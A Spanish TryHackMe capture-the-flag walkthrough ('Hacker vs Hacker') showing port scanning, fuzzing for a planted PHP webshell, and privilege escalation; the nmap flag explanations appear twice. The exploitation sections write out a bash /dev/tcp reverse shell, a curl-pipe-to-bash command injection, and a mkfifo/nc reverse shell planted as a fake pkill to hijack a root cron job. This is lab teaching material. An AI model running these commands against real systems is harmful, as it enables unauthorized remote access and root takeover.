










En esta máquina tendremos que encotnrar una shell que previamente una hacker cargo al servidor y hacer uso de este para comprometer el equipo victima, y secuestrar un binario para poder esclar privilegios


- Link [Hacker vs Hacker](https://tryhackme.com/room/hackervshacker)
- Created by [Aquinas](https://tryhackme.com/p/Aquinas)

# Walkthrough

## Enumeración
---

### Escaneo de puertos

Empezamos a enumerar la maquina victima. Existe varias herramientas para enumerar los puertos, en este caso usaremos `nmap` que es la que se usa mas

```java
❯ nmap -p- --open --min-rate 1000 -vvv [IP-VICTIM] -Pn -n  -oG allportsScan

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

`-p-`: Esta opción indica a Nmap que escanee todos los puertos en lugar de un rango específico. El guion ("-") significa "todos los puertos". Esto permite escanear todos los puertos desde el puerto 1 hasta el 65535.

`--open`: Esta opción le dice a Nmap que solo muestre los puertos que están abiertos. Los puertos abiertos son aquellos en los que un servicio está escuchando y aceptando conexiones.

`--min-rate 1000`: Esto establece la velocidad mínima de escaneo en 1000 paquetes por segundo. Cuanto mayor sea la velocidad de escaneo, más rápido se completará el escaneo, pero ten en cuenta que un escaneo más rápido puede ser más intrusivo y podría llamar la atención no deseada.

`[IP-VICTIM]`: Esta es la dirección IP del objetivo que se va a escanear. Debes reemplazarla por la dirección IP que deseas escanear.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Puedes usar esto si sabes que el host objetivo no responde a los paquetes de Ping.

`-n`: Esta opción le dice a Nmap que no realice la resolución de nombres DNS. Puedes usarlo si no deseas que Nmap realice búsquedas DNS inversas durante el escaneo.

`-oG allportsScan`: Esta opción le indica a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "allportsScan". Este archivo contendrá información detallada sobre los puertos abiertos y otros detalles del escaneo.
Para entender un poco mas de los parametros que lanzamos con `nmap` podemos leer un poco lo siguiente:

`-p-`: Esta opción indica a Nmap que escanee todos los puertos en lugar de un rango específico. El guion ("-") significa "todos los puertos". Esto permite escanear todos los puertos desde el puerto 1 hasta el 65535.

`--open`: Esta opción le dice a Nmap que solo muestre los puertos que están abiertos. Los puertos abiertos son aquellos en los que un servicio está escuchando y aceptando conexiones.

`--min-rate 1000`: Esto establece la velocidad mínima de escaneo en 1000 paquetes por segundo. Cuanto mayor sea la velocidad de escaneo, más rápido se completará el escaneo, pero ten en cuenta que un escaneo más rápido puede ser más intrusivo y podría llamar la atención no deseada.

`[IP-VICTIM]`: Esta es la dirección IP del objetivo que se va a escanear. Debes reemplazarla por la dirección IP que deseas escanear.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Puedes usar esto si sabes que el host objetivo no responde a los paquetes de Ping.

`-n`: Esta opción le dice a Nmap que no realice la resolución de nombres DNS. Puedes usarlo si no deseas que Nmap realice búsquedas DNS inversas durante el escaneo.

`-oG allportsScan`: Esta opción le indica a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "allportsScan". Este archivo contendrá información detallada sobre los puertos abiertos y otros detalles del escaneo.

Teniendo los puertos abiertos, vamos a enumerar los servicios y versiones que se ejecutan en los puertos abiertos

Teniendo el puerto `80` abierto,enumeramos la versión y servicio 

```java
❯ nmap -p80 -sC -sV -Pn -vvv [IP-VICTIM] -oN servicesScan
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: DD1493059959BA895A46C026C39C36EF
|_http-title: RecruitSec: Industry Leading Infosec Recruitment
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD

```
`-p80`: Esta opción especifica los puertos que se van a escanear. En este caso, se están escaneando los puertos 80. Los números de puerto están separados por comas y no se utiliza el rango de puertos.

`-sV`: Esta opción realiza la detección de versiones de servicios. Nmap intentará determinar qué servicios se están ejecutando en los puertos especificados y mostrará información sobre las versiones de esos servicios.

`-sC`: Activa los scripts de secuencia de comandos (scripts de automatización) de Nmap. Esto permite que Nmap ejecute scripts de detección y enumeración de servicios en los puertos especificados.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Si no se puede contactar con el host a través de Ping, Nmap aún intentará escanear los puertos especificados.

`-vvv`: Esto establece el nivel de verbosidad del escaneo en "muy alto". Esto significa que Nmap proporcionará una salida detallada que incluye información adicional sobre el progreso del escaneo.

`[IP-VICTIM]`: Debes reemplazar [IP-VICTIM] con la dirección IP del objetivo que deseas escanear. Este es el host en el que se realizará el escaneo.

`-oN servicesScan`: Esta opción le dice a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "servicesScan". Este archivo contendrá información detallada sobre los servicios y versiones detectadas en los puertos especificados.

### Puerto 80

En este puerto vamos a tener la visualización de una web que te permite subir un `pdf`, al subir un archivo `.pdf` no redirige a un sitio con un mensaje `Hacked! If you dont want me to upload my shell, do better at filtering!` 



Haciendo `ctrl + u` visualizamos el código fuente en el cual vemos un código php. Analizando este código vemos que al subir un archivo, este hace una comparación y se asegura que en el nombre del archivo tengo un  `.pdf`. 
 
```php
Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:
$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

Intente subir mi `webshell.pdf.php` pero la ruta donde deben de estar los pdf no me lista, por lo que realice un fuzzing, para descubrir directorios del sitio web que desconocemos.

```java
❯ wfuzz -c -f directoryWeb,raw -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 --hh 3413 http://[IP-VICTIM]/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://[IP-VICTIM]/FUZZ
Total requests: 220560
=====================================================================
ID           Response   Lines    Word       Chars       Payload          
=====================================================================
000000016:   301        9 L      28 W       313 Ch      "images"
000000550:   301        9 L      28 W       310 Ch      "css"
000001442:   301        9 L      28 W       310 Ch      "cvs"
000001503:   301        9 L      28 W       311 Ch      "dist"  
```

El sitio web tiene los directorios `images`, `css`, `cvs`, `dist`. En los directorios no hay mucho que hacer.

### Fuzzing

Recordemos que esta maquina fue comprometida antes por un hacker, entonces en el sitio web donde se sube los cvs el hacker subio su `shell`

Vamos a buscar algun archivo `.pdf.php`.

```java
❯ wfuzz -c -f directoryWeb,raw -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://[IP-VICTIM]/cvs/FUZZ.pdf.php
```

Encontramos un archivo `shell.pdf.php`


Al ver el archivo en la web, nos pone `boom!` 



Normalmente una webshell tiene un parametro, ahora vamos a buscar el parametro haciendo uso de `wfuzz`.

```java
❯ wfuzz -c -f directoryWeb,raw -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 --hh 18 http://[IP-VICTIM]/cvs/shell.pdf.php?FUZZ=id

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://[IP-VICTIM]/cvs/shell.pdf.php?FUZZ=id
Total requests: 220560
=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================
000005340:   200        2 L      5 W        72 Ch       "cmd"  
```

Encontramos el parametro que es `cmd` 

## Explotación
---

Ingresamos el comando `whoami` y podemos observar que se puede ejecutar comandos



### Revershell

Ahora que podemos ejecutar comandos, vamos a obtebner una shell. Vamos hacerlo como yo lo hago

- **Primero**, creamos un archivo llamando `index.html` en el cual pondremos nuestra `revershell`

```java
❯ nano index.html
❯ cat index.html
bash -i >& /dev/tcp/[IP-ATTACKER]/443 0>&1
```

- **Segundo**, iniciamos un servidor http en `python3`

```java
❯ python3 -m http.server 80
```
- **Tercero**, iniciamos `ncat` para recibir la shell

```java
❯ ncat -lvnp 443
```

- **Cuarto**, hacemos un curl

```java
❯ curl -s 'http://[IP-VICTIM]/cvs/shell.pdf.php?cmd=curl%20http://[IP-ATTACKER]|bash'
```

## Escalada de privilegios

--- 

Obtenemos la shell como usuario `www-data`



### Usuario www-data

Enumerando encontramos en `.bash_history`una credencial 



Tambien podemos ver en el archivo `/etc/cron.d/persistence` existe tareas que el usuario `root` lo realiza, este hace un `kill` de la sesión



### Usuario lachlan

Nos conectamos por `ssh` con las credenciales que encontramos



¿Que haremos?
Vemos que el binario `kill` no lo ejecutan desde la ruta absoluta, por lo que podemos hacer uso de este binario, crearemos nuestro propio `pkill` en donde inyectaremos una revershell. 

```java
echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP-ATTACKER] 444 >/tmp/f' >bin/pkill ; chmod +x bin/pkill 
```



Ejecutamos



### Usuario - root




¡VAMOS!

Happy hacking :)